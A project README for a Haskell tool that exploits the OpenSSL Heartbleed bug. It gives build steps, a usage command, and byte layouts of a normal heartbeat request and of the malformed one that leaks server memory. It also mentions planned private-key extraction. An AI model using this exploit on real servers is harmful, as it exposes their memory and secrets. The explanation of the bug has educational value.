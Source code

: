 haskell-heartbleed: Implementation of OpenSSL Heartbeat bug exploit in Haskell
==============================================================================

Requirements and Insallation
----------------------------

This program depends on a couple packages, besides GHC of course:

* `Options<http://hackage.haskell.org/package/options>`_ - for argument parsing
* `Repa<http://hackage.haskell.org/package/repa>`_ - for searching through
memory chunks in parallel.
* `tls (customized)<https://github.com/lehins/hs-tls>`_ - version of `tls<http://hackage.haskell.org/package/tls>`_ library with hearbeat feature added to it.

Here is installation and compilation instructions (llvm is required for Repa):

.. code-block:: bash

   ~$ sudo apt-get update && sudo apt-get install llvm
   ~$ cabal update && cabal install Options repa
   ~$ git clone https://github.com/lehins/hs-tls
   ~$ cd hs-tls/core
   ~/hs-tls/core$ cabal install
   ~/hs-tls/core$ cd ..
   ~$ rm -R hs-tls
   ~$ git clone https://github.com/lehins/haskell-heartbleed
   ~$ cd haskell-heartbleed
   ~/haskell-heartbleed$ make
   ~/haskell-heartbleed$ ./heartbleed --help                

Example Usage
-------------

.. code-block:: bash
     
   $ ./heartbleed --host example.com --times 10 +RTS -N

Features
--------

Can extract up to 64K of random memory from a server running vulnerable version
of OpenSSL. Unlike most heartbleed implementations, all requests and responses
are transmitted over encrypted TLS connection. Moreover, same TLS connection is
reused for heartbeat requests, until it is dropped by the server, in which case
it is automatically reestablished. Making this implementation blazingly fast.

Still working on ability to retreive private keys from the memory chunks.                

Overview of Heartbeat Request
-----------------------------

Legitimate request and response::

                             _ Size of the payload  _Payload "foo"
    Request__               /                ______/
             \             /                /
    (..) [0x01] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes random padding] 

    Response_
             \
    (..) [0x02] [0x00 0x03] [0x66 0x6F 0x6F] [at least 16 bytes other random padding] 

Request that exploits the bug, requesting 64K of memory from the server, notice
missing padding::
     
    
       _ Heartbeat      _TLS v1.0   _Message size  _Heartbeat Request  _Payload Size
      /                /           /      ________/   ________________/
     /                /           /      /           /
    [0x18] [0x03 0x01] [0x00 0x03] [0x01] [0xFF 0xFF]


Disclaimer
----------

This program was written for educational purpose only. Pointing this program at
any computer without prior agreement can be considered illegal and might cause
legal action, prosecution, fines and/or imprisonment. Use it at your own risk.
